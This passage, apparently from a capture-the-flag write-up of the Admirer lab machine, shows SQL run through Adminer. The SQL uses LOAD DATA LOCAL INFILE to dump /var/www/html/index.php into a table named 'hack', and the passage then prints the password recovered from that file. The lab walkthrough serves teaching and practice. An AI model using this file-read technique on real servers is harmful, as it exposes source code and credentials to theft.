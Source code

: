 Now that we're connected, we need to create a table with a column to dump the index.php file using the ```LOAD DATA LOCAL INFILE```statement, which allows you to import data from a file into a database.

```sql
CREATE TABLE hack (
    dump varchar(255)
);
LOAD DATA LOCAL INFILE "/var/www/html/index.php"
INTO TABLE hack
```

![adminer_command](/assets/img/posts/admirer/adminer_command.png)

And then by navigating to the hack table, we can see a password that has been dumped:           
`&<h5b~yK3F#{PaPB&dA}{H>`

![dump](/assets/img/posts/admirer/dump.png)
